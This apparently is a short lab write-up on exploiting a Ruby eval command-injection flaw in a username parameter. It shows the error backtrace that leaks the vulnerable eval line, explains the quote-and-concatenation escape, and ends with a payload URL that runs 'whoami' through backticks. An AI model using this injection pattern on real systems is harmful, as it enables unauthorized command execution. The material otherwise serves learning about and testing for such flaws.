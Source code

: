 ```yaml
---
language: "ruby"
exploit-type: "command-injection"
tags: ruby
---
```

If errors are outputted, and there is an eval vuln, we can figure it out quickly by inputting a double quote. This is an example of an error we might get:

```backtrace
### BACKTRACE

[(expand)](http://ptl-6800f32ccc39-f93e62769d14.libcurl.me/?username=hacker%22#)

**JUMP TO:** [GET](http://ptl-6800f32ccc39-f93e62769d14.libcurl.me/?username=hacker%22#get-info) [POST](http://ptl-6800f32ccc39-f93e62769d14.libcurl.me/?username=hacker%22#post-info) [COOKIES](http://ptl-6800f32ccc39-f93e62769d14.libcurl.me/?username=hacker%22#cookie-info) [ENV](http://ptl-6800f32ccc39-f93e62769d14.libcurl.me/?username=hacker%22#env-info)

- `/srv/exercise.rb` in `**eval**`
- 13. `@message = eval "\"Hello "+params['username']+"\""`
    
- `/srv/exercise.rb` in `**block in <class:Exercise>**`
- 13. `@message = eval "\"Hello "+params['username']+"\""`
    
- `/usr/local/lib/ruby/2.3.0/webrick/httpserver.rb` in `**service**`
- 140. `si.service(req, res)`
    
- `/usr/local/lib/ruby/2.3.0/webrick/httpserver.rb` in `**run**`
- 96. `server.service(req, res)`
    
- `/usr/local/lib/ruby/2.3.0/webrick/server.rb` in `**block in start_thread**`
- 296. `block ? block.call(sock) : run(sock)`
```

This gets displayed in a much nicer format btw. But we can see the word __ruby__ littered all over it. ruby

what espcially is interesting is this line:
```ruby
@message = eval "\"Hello "+params['username']+"\""
```
This is only displayed because the server is in development mode. We can see how the eval works. This can be used to break it, we have to know a few things:
- We have to close in the first string with `"`
- We have to concentrate with an encoded plus sign: `%2b`
- We have to put our command into two \` signs
- We have to close concentrate again with `%2b`
- We have to close in with `"` , to close in the string forward

A final payload might look similar to this:
```
http://url.me/?username=hacker%22%2b`whoami`%2b%22
```



